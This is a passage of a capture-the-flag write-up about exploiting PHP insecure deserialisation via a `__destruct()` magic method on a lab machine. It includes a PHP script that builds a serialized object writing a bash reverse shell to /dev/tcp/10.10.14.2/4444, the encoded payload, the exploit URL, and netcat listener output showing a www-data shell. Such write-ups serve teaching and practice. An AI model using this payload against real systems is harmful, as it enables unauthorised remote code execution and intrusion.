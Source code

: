 This is some funky code, the bits of interest to us are the `__destruct()` function and `unserialize($input)`.
## Shell as www-data
### Deserialisation
Serialisation is the process of converting structured data (such as an object) to a format that allows sharing or storage of the data in a form that allows recovery of its original structure. This could be as a string (PHP, JavaScript) or as a binary (Python). Serialisation is the reverse of this. This is very handy, however it can be repurposed for malicious effect when it is used on user provided data. For further information, IppSec has done a great [pair](https://www.youtube.com/watch?v=HaW15aMzBUM) of [videos](https://www.youtube.com/watch?v=fHZKSCMWqF4) about this.

In the code above, `unserialize` is being called on `$input` which is retrieved from the `arepo` parameter in the URL (?arepo=\$input). This means that a user can provide their own serialized form of the `DatabaseExport` object and control the values of `$user_file` and `$data`.

However, at first glance this does not seem useful as `update_db()` is called on `$app` which creates as a new object, not the one we provide. This is where the `__destruct()` comes in handy. This is an example of a [magic method](https://www.php.net/manual/en/language.oop5.decon.php#object.destruct). What this essentially means for us is that whenever a `DatabaseExport` object is no longer useful it is "deconstructed" and the code under `__destruct()` is ran. This means, that we can still make use of our ability to pass serialized data. With this information we can now craft our own serialized version of `DatabaseExport` which write a PHP reverse shell to a file.
### Create Payload
```php
<?php

class DatabaseExport
{
        public $user_file = 'shell.php';
        public $data = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/10.10.14.2/4444 0>&1\'"); ?>';
}


echo urlencode(serialize(new DatabaseExport));
?>
```

Running this code results in the following serialized payload:
```
O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A4%3A%22data%22%3Bs%3A72%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F10.10.14.2%2F4444+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D
```
Which is URL encoded form of:
```
O:14:"DatabaseExport":2:{s:9:"user_file";s:9:"shell.php";s:4:"data";s:72:"<?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.2/4444 0>&1'"); ?>";}
```
The reason for `urlencode` is so that when we submit the payload, there are no special characters that could interfere and cause it to fail to execute.
### Execute payload
Now to execute our payload all we have to do is navigate to `http://10.10.10.223/sator.php?arepo=[Payload]` and we see the phrase "[] Database updated" is shown twice. This is shows us that our payload was successfully as `__destruct()` was called twice, once for our object and once for the original object. What this means is now we can setup a netcat listener using `nc -lvnp 4444` and navigate to `http://10.10.10.223/shell.php`
```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.223] 24890
whoami
www-data
```